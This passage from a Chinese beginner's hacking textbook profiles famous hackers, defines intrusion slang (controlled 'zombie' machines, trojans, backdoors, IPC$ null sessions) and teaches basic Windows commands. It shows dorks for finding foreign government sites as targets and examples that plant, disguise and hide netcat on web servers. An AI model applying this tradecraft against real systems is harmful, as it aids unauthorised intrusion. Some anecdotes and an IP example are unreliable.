没过多久，他就大摇大摆地将自己宣传为“独立的计算机咨询（顾问）”。又过了一段时间，他又进入MIT的斯隆管理学院，想拿一个MBA学位充充门面，但没坚持几天，就退了学。年届30岁的卡普尔依然经济拮据，漫无人生目标。这时他捡起往日曾经有过的一项爱好，开始从事计算机编程，他成了一名BASIC语言黑客。

1983年，当年软件业还只有极少数大公司。当时卡普尔创办的Lotus是PC软件业的老大，他的地位就像苹果的乔布斯和当今微软的比尔·盖茨一样。显然，卡普尔终于找到了自己的位子。但是，安稳永远不是卡普尔的天性，在这个最成功的软件发布四年后，卡普尔卸掉官职，离开商业界。

1990年，卡普尔与著名抒情诗人John Perry Barlow创建了电子边疆基金会（EFF），这个非营利的公共利益机构，主要是维护黑客的公民权利。开始主要为几名非法入侵计算机系统而被捕的黑客提供法律支援。电子边疆基金会时常被人称为是计算机业的美国公民自由协会（ACLU）。

## 主要成就

在80年代中期，卡普尔与盖茨是美国软件业的双子星。1982年创办Lotus公司，并担任CEO。推出个人电脑“杀手级应用”软件Lotus 1-2-3。1985年，Lotus员工已过千人，是当时最大的独立软件公司。直到1988年4月，微软才超过Lotus，成为头号软件公司。卡普尔发起创办的电子边疆基金会（EFF）维护黑客利益，被称为是计算机业的美国公民自由协会（ACLU）。卡普尔也因此成为80年代和90年代最具影响力的计算机人物和黑客界最具影响力的人物之一。

卡普尔是硅谷黑客理念的真正体现：反对公司，不遵循主流精神，富有创造，崇尚出世。盖茨则是现代黑客的体现，与卡普尔形成鲜明对照。盖茨是反基督的肖像，功利性强，十分入世，追求利益，他的公司也以压制自由而成功，出产丑陋、笨拙、纯粹以商业驱动的产品。与他相比，卡普尔更是一位民间的英雄，而盖茨则是主流社会的英雄。

#### 1.2.7 被美国政府通缉的头号黑客凯文·米特尼克（Kevin Mitnick）

Kevin曾经是美国政府最著名的通缉犯之一，因为黑客行为入狱5年，2000年1月释放，但是依然禁止上网。这位曾经的逃亡者，曾经因为非法侵入Sun、Motorola等公司的计算机系统而被判五年徒刑。现在，米特尼克正在享受重生之后平静的中年生活。在一次闲聊式的采访中，米特尼克对自己的前途充满信心。他的回忆录在eBay上热销，获得过奥斯卡奖的导演Kevin Spacey甚至把他的故事拍成了电影。以他为主角的书籍更是已经超过10本。目前，他已经开设了自己的公司，业务是帮助客户防护黑客攻击。

Kevin的黑客生涯到其后来入狱时差不多就有15年之久。他的作案时间之长、作案次数之多、破坏力之大、技术之精、经历之传奇，都让全世界为之震惊，也使电脑警察们汗颜。

米特尼克只有3岁时，父母就离异。他跟着母亲，很小就学会自立，却也从小形成孤僻的性格。70年代末，13岁的他还在上小学，就喜欢上业余无线电活动。中学老师一致认为他是一个聪明、有前途的孩子，直到有一天发现他使用计算机闯入其他学校的网络。这样的行为当然不可饶恕，他因此而退学。

失去了学校的束缚，对于初尝黑客滋味的他说，天空更加开阔了。他打工赚钱，买下一台性能不错的电脑。没有约束的他野心更加膨胀，他以远远超出其年龄的耐心和毅力，试图破译美国高级军事密码。不久，年仅15岁的米特尼克闯入了“北美空中防务指挥系统”的主机内，和另外一些朋友翻遍了美国指向前苏联及其盟国的所有核弹头的数据资料，然后又悄无声息地溜了出来，这成了黑客历史上的一次经典之作。

2002年，对于曾经臭名昭著的计算机黑客凯文·米特尼克来说，圣诞节提前来到了。这一年，的确是Kevin Mitnick快乐的一年。不但是获得了彻底的自由（从此可以自由上网，不能上网对于黑客来说，就是另一种监狱生活），而且他还推出了自己第一本完成的畅销书《欺骗的艺术》（The Art of Deception: Controlling the Human Element of Security）。此书大获成功，成为Kevin Mitnick重新引起人们关注的第一炮。在《欺骗的艺术》大获成功后，Kevin又继续完成了其第二本黑客图书《入侵的艺术》（The Art of Intrusion），大家在书店里都可以买到。另外，我也从网上找到了《欺骗的艺术》英文原版及中文翻译版，一起收录在了随书光盘中，有空的话大家别忘了翻阅一下哟。

关于凯文·米特尼克的传奇故事也许写一本书都写不完，限于篇幅，我无法向各位读者朋友详细介绍。如果有兴趣的话，大家可以从网上找一些相关资料来看，感受一下这位20世纪70、80年代轰动西方世界的三大电脑犯罪中的主角。

#### 1.2.8 蠕虫制造者罗伯特·莫里斯（Robert Morris）

1988年冬天，正在康奈尔大学攻读的莫里斯，把一个被称为“蠕虫”的电脑病毒送进了美国最大的电脑网络——互联网。1988年11月2日下午5点，互联网的管理人员首次发现网络有不明入侵者。它们仿佛是网络中的超级间谍，狡猾地不断截取用户口令等网络中的“机密文件”，利用这些口令欺骗网络中的“哨兵”，长驱直入互联网中的用户电脑。入侵得手，立即反客为主，并闪电般地自我复制，抢占地盘。

用户目瞪口呆地看着这些不请自来的神秘入侵者迅速扩大成果，充斥电脑内存，使电脑莫名其妙地“死掉”，只好急如星火地向管理人员求援。哪知，他们此时四面楚歌，也只能眼睁睁地看着网络中电脑一批又一批地被病毒感染而“身亡”。当晚，从美国东海岸到西海岸，互联网用户陷入一片恐慌。到11月3日清晨5点，当加州伯克利分校的专家找出阻止病毒蔓延的办法时，短短12小时内，已有6200台采用Unix操作系统的SUN工作站和VAX小型机瘫痪或半瘫痪，不计其数的数据和资料毁于这一夜之间，造成一场损失近亿美元的空前大劫难！

当警方已侦破这一案件并认定莫里斯是闯下弥天大祸的“作者”时，纽约州法庭却迟迟难以对他定罪。在当时，对制造电脑病毒事件这类行为定罪，还是世界性的难题。前苏联在1987年曾发生过汽车厂的电脑人员用病毒破坏生产线的事件，法庭只能用“流氓罪”草草了事。

1990年5月5日，纽约地方法庭根据罗伯特·莫里斯设计病毒程序，造成包括国家航空和航天局、军事基地和主要大学的计算机停止运行的重大事故，判处莫里斯三年缓刑，罚款一万美元，义务为新区服务400小时。莫里斯事件震惊了美国社会乃至整个世界。而比事件影响更大、更深远的是：黑客从此真正变黑，黑客伦理失去约束，黑客传统开始中断。大众对黑客的印象永远不可能回复，而且计算机病毒从此步入主流。

**圈内头衔：**rtm

主要成就：这位美国国家计算机安全中心（隶属于美国国家安全局NSA）首席科学家的儿子、康奈尔大学的高材生，在1988年的第一次“工作”过程中戏剧性地散播出了网络蠕虫病毒后，“Hacker”一词开始在英语中被赋予了特定的含义。在此次事故中，成千上万的电脑受到了影响，并导致了部分电脑崩溃。

第一次接触计算机：在家里。莫里斯的父亲曾从NSA把一台原始而神秘的密码机器带到家里，它成为一家人的谈资。

自己独特的工具：少年莫里斯有一个贝尔实验室计算机网络的账号，早期的黑客攻击使之拥有超级用户权限。

鲜为人知的事实：1990年，当美国安全部门搜查“死亡兵团”成员Erik Bloodaxe家时，他们发现了莫里斯的网络蠕虫源代码拷贝。

目前的状况：罗伯特·莫里斯现在是MIT的助理教授。他是1988年在这里发布他的蠕虫病毒的（从而掩饰是在康奈尔大学编制蠕虫病毒这一事实）。

#### 1.2.9 自由软件理论旗手埃里克·史蒂文·雷蒙德（Eric Steven Raymond）

任何一场革命或者运动都需要一个理论家，需要一份纲领性的文献，起到真正“画龙点睛”的神效。除了架构极具思辨力和逻辑性的理论体系，更需要激发起人们对美好理想的向往，为同行者的士气传递极具煽动性的烈焰。自由软件运动也不例外。自由软件精神领袖当然是理查德·斯托尔曼（Richard Stallman），但他太超凡脱俗，而且除了提出核心理念外，斯托尔曼缺乏著书立作的能力。这些局限，使得埃里克·雷蒙德（Eric S. Raymond）脱颖而出，担当了这个角色。如今，他已经成为开放源代码运动（脱胎于自由软件运动）和黑客文化的第一理论家，不可动摇。

图1.9

在自由软件启蒙阶段，埃里克·雷蒙德以如椽之笔呼啸而出，其核心著作被业界称为“五部曲”：《黑客道简史》（A Brief History of Hackerdom）、《大教堂和市集》（The Cathedral and the Bazaar）、《如何成为一名黑客》（How To Become A Hacker）、《开拓智域》（Homesteading the Noosphere）、《魔法大锅炉》（The Magic Cauldron）。其中最著名的当然还是《大教堂和市集》，它在自由软件运动中的地位相当于基督教的《圣经》。而用黑客们的话说，这是“黑客藏宝阁”的第一个收藏。

1957年，雷蒙德出生于美国马萨诸塞州的波士顿，正好就是黑客文化发源地MIT的所在地，也是斯托尔曼发动自由软件运动的大本营。但雷蒙德从小就跟随父母在世界各地东奔西走，13岁之前已经忘掉了两种语言。1971年，他回到美国宾夕法尼亚州；1976年起开始接触黑客文化；1982年完成了第一个开放源代码软件项目。雷蒙德不是光说不练的笔杆子，他是INTERCAL编程语言的主要创作者之一，曾经为EMACS编辑器作出贡献。雷蒙德还是著名的Fetchmail程序的作者。他还编写了一个最初用于Linux内核设置的设置程序。

1990年，他编辑了《新黑客字典》，从此对黑客文化着迷，成为黑客部落的历史学家和黑客文化的学者，1996年写成了《黑客道简史》。他开始把自己定位于人类学家：“人类学家的工作就是研究人的行为及整个社会，研究人类文化的形成、文化的作用方式、文化如何随时间变化而变化，以及人类如何适应不同的文化环境等。我考虑最多的是有关计算机黑客的文化，更多地集中于从社会的角度分析，而不是他们的高超技术和程序。”

讲到这儿，sagi抬起头看了看讲台下，只见众小菜一个个听得悠然神往，却又似懂非懂，只好连忙打住：“好了，好了，关于黑客文化，我们就简单介绍到这儿。在以后的学习过程中，我们还会接触到一些常用的黑客术语，为了方便以后的学习，我们极有必要了解一下这些最基础、最常用的黑客术语的意思。这样，当以后碰到的时候，就不会感到陌生了。”

### 1.3 初学者必须要知道的几个黑客术语

#### （1）什么是菜鸟

可以说“菜鸟”是一种谦虚、比喻的说法，比喻自己的水平很差，就像是一只什么都不会的小鸟一样。

#### （2）什么是肉鸡

所谓“肉鸡”其实是一种很形象的比喻，比喻那些可以随意被我们控制的电脑。对方可以是Windows系统，也可以是UNIX/Linux系统；可以是普通的个人电脑，也可以是大型服务器。我们可以像操作自己的电脑那样来操作它们，而不被对方发觉。

#### （3）什么是木马（Trojan Horse）

这是由希腊神话里面的“特洛伊木马”而得名的。希腊人在进攻特洛伊城时久攻不下，于是他们假装撤退，将一只假装用作祭礼的巨大木马遗弃在城外。特洛伊人将木马当作战利品运进城内，到了夜里，藏在木马腹内的希腊士兵与城外士兵里应外合，一举攻破了特洛伊城。

而我们常说的“木马”程序与这个类似，表面上它们都伪装成了正常程序，但当这些木马程序被运行后，就会获取系统的整个控制权限。有许多黑客都热衷于使用木马程序来控制别人的电脑，比如灰鸽子、黑洞、PcShare等等。除了这些传统木马外，还有一些专用的木马盗号程序，主要用于盗取QQ及各种网游账号。

#### （4）什么是后门（BackDoor）

这是一种形象的比喻。入侵者在利用某些方法成功控制目标主机后，可以在对方系统中植入特定程序，或修改某些设置。这些改动表面上对方很难察觉，但是入侵者却可以使用相应程序或者方法，轻易与这台电脑建立连接，重新控制该台电脑。就好像入侵者偷偷配了一把主人房间的钥匙，可以随时进出而不被主人发觉一样。通常大多数特洛伊木马（Trojan Horse）程序都可以被入侵者用于制作后门（BackDoor）。

#### （5）什么是远程控制

使用本地电脑通过网络远程控制另一台电脑，可以在远程电脑上实现本地的大部分操作，这就是远程控制。完成这个功能的软件通常被称作远程控制软件。

从功能上讲，远程控制软件与木马程序几乎是一样的，但它们的区别在于：远程控制软件是为了管理员更好地维护管理远程电脑而出现的，而木马程序是以非法远程控制别人的电脑为目的的。因此，远程控制软件通常不会被杀毒软件查杀。远程控制软件的功能通常都非常强大，但木马的服务端程序为了不让自己被查杀，隐蔽性通常都非常好。

### （6）IPC$是什么

IPC$（Internet Process Connection）是共享“命名管道”的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应权限，在远程管理计算机和查看计算机共享资源时使用。利用IPC$，连接者甚至可以与目标主机建立一个空连接而无需用户名与密码。利用这个空连接，连接者就可以得到目标主机上的用户列表。

在网络上，我们经常会看到有人说IPC$漏洞，其实IPC$并不是真正意义上的漏洞。它本来是微软为了方便管理员远程管理而开放的远程网络登录功能，但对于黑客来说，它却成了一种非常简单方便的远程入侵方法。在Windows 2000时代，利用IPC$入侵远程电脑可是非常流行的哟。

#### （7）什么是溢出

更确切地说，应该是“缓冲区溢出”。简单的解释就是程序对接收的输入数据没有进行有效检测而导致错误，后果可能是造成程序崩溃或者执行攻击者的命令。UNIX/Linux和Windows本身以及其上的许多应用程序都是使用C语言编写的，C/C++语言对数组下标访问越界不做检查，这是引起缓冲区溢出的根本原因。

在某些情况下，如果用户输入的数据长度超过应用程序给定的缓冲区，就会覆盖其他数据区，这就称作“缓冲区溢出”。缓冲区溢出大致可分为两类：一类是堆溢出（Heap Overflow），一类是栈溢出（Stack Overflow）。而根据利用方式也可以分为远程溢出及本地溢出。

#### （8）什么是注入

随着B/S模式应用开发的发展，使用这种模式编写应用程序的程序员也越来越多。但是由于程序员的水平及经验参差不齐，相当大一部分程序员在编写代码的时候没有对用户输入数据的合法性进行判断，使得应用程序存在安全隐患。用户可以提交一段数据库查询代码，根据程序返回的结果获得某些他想得知的数据，这就是所谓的SQL Injection，即SQL注入，这也是目前使用最为广泛的一种网站入侵方式。

### （9）什么是Shell

Shell指的是一种命令执行环境。比如我们使用鼠标点击桌面最左下角的“开始”-“程序”-“附件”-“命令提示符”，或点击“开始”-“运行”，然后在运行栏输入“CMD”，点击“确定”按钮后，就会出现一个黑色的用于执行命令的窗口，这就是Windows的Shell执行环境（图1.10）。通常当我们使用远程溢出程序成功溢出远程电脑后，得到的那个用于执行系统命令的环境，就是对方的Shell。

## 第二章：走进神秘的黑客

图1.10

### （10）IP地址是什么

IP是Internet Protocol（Internet协议）的缩写，这是为计算机在Internet上相互连接进行通信而设定的协议。

IP地址就是给每个连接到Internet上的电脑所分配的一个32位地址（就好像是每个人的身份证号码，是用来识别身份的，凭借这个就可以找到对方的住址）。为了方便人们使用，IP地址通常被写成十进制形式，中间使用符号“.”来分开不同的字节，每个字节的数字范围为0-255，例如61.152.251.212。我们要想查看自己电脑的IP地址的话，可以在命令提示符下输入：`ipconfig /all`，“IP Address”那一行显示的192.168.0.99就是我的IP地址，如图1.11。

#### （11）域名是什么

虽然可以通过IP地址来访问Internet上的每一台主机，但是要记住这么多枯燥的数字串显然是非常困难的。为了解决这个问题，就提出了域名（Domain Name）这个概念。域名也是由若干部分组成，每个部分可以由一些特定字符组成，而各部分之间使用小数点分开。例如黑客X档案官方网站的域名是“hackerxfiles.net”，你们sagi老师个人网站的域名为“sagi.net.cn”，显然域名比IP地址好记忆多了。在域名前边加上传输协议信息及主机类型信息就构成了网址（URL），例如黑客X档案网站的网址就是“http://www.hackerxfiles.net”。

图1.11

为了方便域名的管理，按照用途我们将域名主要分为以下几个大类，它们分别以不同的后缀来结尾：

- `.com` 用于商业公司
- `.net` 用于网络服务
- `.org` 用于组织、协会等
- `.edu` 用于学校及教育机构等
- `.gov` 用于政府部门
- `.mil` 用于军事部门

目前，除了`.gov`、`.edu`和`.mil`只在美国专用外，`.com`、`.net`和`.org`已经在全世界通用，成了国际域名。由于国际域名资源有限，为了区分及更好地管理各个国家、地区的域名，因此又引入了国家域名这个概念。也就是在域名的最后加上国家或地区的标识段（通常为两位的特定字符），形成各个国家、地区自己的国内域名。比如：

- `.cn` 为中国的国家域名
- `.tw` 为中国台湾省的地区域名
- `.hk` 为中国香港特别行政区的域名
- `.jp` 为日本的国家域名
- `.uk` 为英国的国家域名
- `.ru` 为俄罗斯的国家域名

事实上，黑客经常利用域名来寻找特定的攻击目标，比如在google中搜索“inurl:.gov.tw”来寻找台湾政府机构的网站，搜索“inurl:.edu.tw”来寻找台湾的大学及教育机构的网站，搜索“inurl:.gov.uk”来搜索英国政府部门的网站等。

对于国外的域名，除了`.gov.uk`这种正常格式外，有的还把`.com`、`.net`、`.org`、`.gov`等省掉了第三位，而只使用前两位。比如，我们要想搜索日本政府网站的话，还可以在google中搜索“inurl:.go.jp”；搜索日本组织及协会等的网站，就搜索“inurl:.or.jp”等。

#### （12）什么是端口

端口（Port）相当于一种数据的传输通道，用于接收某些数据，然后传送给相应的服务，而电脑将这些数据处理后，再将相应回复通过开启的端口传给对方。一般每一个端口的开放都对应了相应的网络服务，要关闭这些端口只需要将对应的服务关闭就可以了。

#### （13）什么是嗅探（Sniffer）

Sniffer中文通常翻译为嗅探器，这是一种威胁性极大的被动式攻击工具。使用这种工具，可以监视网络状态、数据流动情况以及网络上传输的信息。当信息以明文形式在网络上传输时，便可以使用网络监听的方式来进行攻击。将网络接口设置在监听模式，便可以将网上传输的源源不断的信息截获。黑客们常常用它来截获用户口令。

#### （14）什么是权限

我们可以简单地将“权限”理解为用户对系统及文件、目录操作的权力。按照相应权限，用户只能执行相应操作。举个简单的例子：系统管理员（Windows系统下的administrators组用户或UNIX/Linux系统下的root组用户）设置甲用户在电脑上只能访问A目录及其下文件，设置乙用户只能访问B目录及其下文件。那么，甲用户不能访问B目录，而乙用户也不能访问A目录，他们更不允许更改这个设置，这就是权限。而系统管理员对于系统的全部操作则不受任何限制。

正因为如此，黑客在入侵过程中总是希望自己能够获得系统管理员权限，从而获取对方整个系统的控制。倘若他们获得的只是受到限制的普通用户权限（类似甲用户或乙用户，通过脚本注入攻击得到的webshell通常就是这种普通权限），他们就会利用系统中存在的安全漏洞或软件设置上的一些安全缺陷来使自己突破这种限制或得到管理员权限，这就是提权。

讲到这儿，sagi看了看手表，然后说道：“黑客术语有许多，我们上边提到的一些只是其中最最常用到的。至于其他术语，当我们碰到的时候我再给大家介绍。好了，理论知识就讲到这儿，现在课间休息十分钟，然后我们就开始学习真正的黑客技术了！”一听可以休息了，众小菜立刻“呜拉”一声，课堂里顿时又乱成了一片。

## 第二章　黑客必备常用基础命令

当学堂里渐渐地又趋于平静的时候，阿菜他们才诧异地发现，原本空荡荡的黑板上已经被 sagi 老师密密麻麻地写满了字。

这时，就听 sagi 老师用课本敲了敲讲桌，说道：“上课，上课，请同学们将黑板上的那段话一起朗读一遍。”

这回，轮到讲台下的阿呆他们大汗一片了，还有朗读，不会以后还要默写吧！接着，学堂里响起了不怎么整齐的朗读声：自从划时代的 Windows 95 诞生，计算机已越来越被普通的用户所接受，如今它已深入到世界的各个角落，今日的世界，我们已无法想象，没有电脑及网络的日子会是如何！今天的操作系统，不管是 UNIX/Linux 还是 Windows，友好的界面及易用性的追求已经成为它们获得市场、赢得用户的重要保证。对于初学者来说，他们不必再去掌握那些复杂、繁琐的各种系统命令，只要给用户一个鼠标，不管是 Windows 的操作界面还是 UNIX/Linux 的 X-window 操作界面，他们都会在很短的时间内掌握最基本的操作。是的，这确实给用户的使用及计算机、网络的普及带来了很大的方便，但同时，也使得更多的用户遗忘了那些曾经是那么亲切、熟悉的系统命令！

对于普通的个人用户来说，这不过是个可有可无的问题。但是对于一个网络安全爱好者或者对于一个电脑黑客来讲，掌握系统命令的使用是他们的一门必修课程。而在技术的实现上，利用系统漏洞获得一个交互式的命令操作界面（也就是俗称的 shell）远比获得一个图形方式的操作界面要简单得多，更何况对于许多大型的 UNIX/Linux 服务器来说，为了提高服务器的安全性，总是尽可能少地安装不相关的组件，当然也就不会去安装 X-window 了。”

朗读完这么长长的一段话，众小菜差点儿虚脱过去，就听 sagi 老师表扬道：“各位同学朗读得好极了，讲了这么多，无非是要各位同学明白，要想成为一个真正的网络高手或是黑客高手，掌握系统命令的使用是必须的。下边，我就来讲一下 Windows 系统下的一些最常用的基础命令。大家可以点击‘开始’－‘运行’，在‘运行’栏中输入 cmd 然后点击‘确定’按钮来调出 cmd 命令提示符，如图 2.1，或者是点击‘开始’－‘程序’－‘附件’，然后选择‘命令提示符’，在命令提示符下大家就可以执行相应的系统命令了。”



### 2.1 Windows 常用基础命令

- 1. **管道命令** `>`、`<`、`>>`、`<<`  
  - 功能：用于输入、输出的转向，通常是与其它的一些命令结合起来使用。

- 2. **通配符** `?`、`*`  
  - 功能：`?` 可以替代单个任意的字符，`*` 可以替代全部任意的字符，通常与其它命令结合起来使用。

- 3. **echo**  
  功能：开启、关闭命令的显示。  
  使用格式：

```bash
echo on
```

开启显示，Windows 默认为开启状态。

```bash
echo off
```

关闭显示，我们会发现，命令提示符已经不显示了。

```bash
echo 系统常用基础命令
```

执行后会在屏幕上显示出“系统常用基础命令”几个字。

```bash
echo 系统常用基础命令>abc.txt
```

利用 echo 命令将“系统常用基础命令”这行字写到 abc.txt 文件中，如 abc.txt 文件不存在，将自动创建该文件；如 abc.txt 文件已经存在，将更新其内容为“系统常用基础命令”这句话。

```bash
echo 追加命令>>abc.txt
```

利用 echo 命令将“追加命令”这四个字追加到 abc.txt 文件中；如 abc.txt 文件不存在，将自动创建该文件；如 abc.txt 文件已经存在，新内容将追加到文件的最后。

事实上，入侵者经常使用上边的两种格式来创建一些不太复杂（指要输入的程序语句不太多）的文件，比如 bat 批处理文件，asp、php 程序，甚至是使用 echo 命令来修改对方网站首页的内容。

- 4. **dir**  
  功能：列出文件或目录。  
  使用格式：

```bash
dir
```

列出当前目录下的所有文件及目录，包括创建的日期、时间和大小等。

```bash
dir /w
```

分行列出（每行列出五个）当前目录下的所有文件及目录，与上边直接使用 dir 命令不同的是只列出文件及目录的名称。

```bash
dir /p
```

分屏列出当前目录下所有文件及目录，包括文件及目录的创建日期、时间、文件大小等信息。满屏后暂停，按任意键显示下一屏内容。

```bash
dir /ad
```

列出当前目录下所有的目录信息。

```bash
dir cmd.exe /s /a /p /w
```

从当前目录开始全盘搜索 cmd.exe 文件，包括搜索隐藏的文件及子目录中的文件，并以分屏、分列的形式列出来。当我们想在电脑上搜索一个特定的文件的时候，经常在根目录下使用这种格式来进行全盘搜索。

```bash
dir cm?.exe
```

列出当前目录下文件名前两个为“cm”，第三个为任意字符的、扩展名为 exe 的所有文件。

```bash
dir *.exe
```

列出当前目录下所有扩展名为 exe 的文件。

- 5. **cd**  
  功能：切换目录。  
  使用格式：

```bash
cd
cd winnt
cd.. 或 cd ..
cd \
```

列出当前的工作目录。  
进入当前目录下的 winnt 目录。  
返回到上层目录。  
返回到根目录。

- 6. **md**  
  功能：创建目录。  
  使用格式：

```bash
md hacker
```

在当前目录下新建一个名为 hacker 的目录。

- 7. **rd**  
  功能：删除目录。  
  使用格式：

```bash
rd hacker
```

删除当前目录下名为 hacker 的目录，但删除时要注意该目录必须为空目录，否则会提示“目录非空”。

- 8. **copy**  
  功能：复制文件。  
  使用格式：

```bash
copy nc.exe c:\inetpub\wwwroot
copy abc1.bat+abc2.bat test.bat
copy con test.bat
```

将当前目录下的 nc.exe 文件复制到 C 盘的“inetpub\wwwroot”目录下。

将文件 abc1.bat 及文件 abc2.bat 合并成文件 test.bat，当我们执行 test.bat 时，系统会先执行 abc1.bat 然后再执行 abc2.bat。利用这个格式，我们可以简单地实现文件的捆绑，但它的功能实在有限，如果你打算将一个 jpg 图片文件与一个 exe 文件合并在一起，那么，你会发现在执行新文件的时候，无论是 jpg 格式还是 exe 格式，都将不会成功。

利用 copy con 命令创建 test.bat 文件，光标会停在下一行等待我们输入，输入完成后，可以按 F6 或 Ctrl+Z 来结束输入，生成文件。显然使用 copy con 命令来创建程序语句比较多的文件要比使用 echo 方便得多，但使用 copy con 命令也有其不方便的地方，特别是当我们在远程计算机的 shell 状态下来使用 copy con 命令的时候，会发现，按 F6 响应的是自己的电脑，按 Ctrl+Z 会中断与对方连接的 shell 窗口。

- 9. **ren**  
  功能：文件改名。  
  使用格式：

```bash
ren nc.exe nc.jpg
```

将当前目录下的文件 nc.exe 改名为 nc.jpg。

- 10. **move**  
  功能：文件转移。  
  使用格式：

```bash
move e:\test\nc.exe c:\inetpub\scripts
```

将 E 盘 test 目录下的 nc.exe 文件转移到 C 盘的 inetpub\scripts 目录下。与 copy 命令不同的是，文件转移后，原来 E 盘 test 目录下的 nc.exe 文件就不会存在了。

- 11. **del**  
  功能：删除文件。  
  使用格式：

```bash
del test.bat
```

删除当前目录下的 test.bat 文件。

```bash
del c:\inetpub\scripts\*.*
```

删除 C 盘 inetpub\scripts 目录下的所有文件。

- 12. **type**  
  功能：显示文件内容。  
  使用格式：

```bash
type test.bat
```

显示当前目录下 test.bat 文件的内容。

```bash
type test.bat|more
```

显示当前目录下 test.bat 文件的内容，如果内容很多，一屏显示不完的话，则分屏显示。

- 13. **attrib**  
  功能：显示或修改文件及目录的属性。  
  使用格式：

```bash
attrib
```

显示出当前目录下所有文件的文件属性，不包括文件夹及子目录下的文件。

```bash
attrib hacker
```

显示出当前目录下名为 hacker 的目录的文件属性。

```bash
attrib c:\*.* /S /D
```

显示出 C 盘所有文件及文件夹的属性，包括子目录。

```bash
attrib +r +a +s +h nc.exe
```

给当前目录下的 nc.exe 文件添加只读（+r）、存档（+a）、系统（+s）、隐藏（+h）属性。设置了只读、系统、隐藏属性，该文件将不能直接使用 del 命令来删除，而设置了系统、隐藏属性后，该文件将被隐藏，直接使用 dir 命令将查看不到该文件的存在，除非使用 dir /a 格式。利用 attrib 命令可以简单地保护自己的特定文件不被删除，或者是简单地隐藏自己的文件。

```bash
attrib -r -s -h nc.exe
```

去掉当前目录下 nc.exe 文件的只读、系统、隐藏属性。

- 14. **ver**  
  功能：显示系统版本信息。  
  使用格式：

```bash
ver
```

显示当前使用的系统的版本信息。

- 15. **ipconfig**  
  功能：显示出系统的网络配置情况。  
  使用格式：

```bash
ipconfig
```

显示出系统的网络配置情况，包括 DNS 名称、IP 地址、子网掩码以及网关等信息，如图 2.2 所示，192.168.0.99 就是我在局域网中的 IP 地址，255.255.255.0 是我的子网掩码，而 192.168.0.1 则是我的网关 IP 地址。



- 16. **nbtstat**  
  功能：显示本地或远程主机 NetBIOS 名称列表，包含的信息有计算机名、工作组、开放的网络服务等。  
  使用格式：

```bash
nbtstat -A 192.168.0.55
```

列出 IP 地址为 192.168.0.12 的电脑的 NetBIOS 名称列表，如图 2.3。

- 17. **net**  
  在 Windows 2000/XP/2003 系统下，net 是一个功能非常强大的网络命令。

  - 1）**net view**  
    功能：查看开放的共享资源信息。  
    使用格式：

```bash
net view
```

查看局域网内所有开放共享的电脑，如图 2.4。

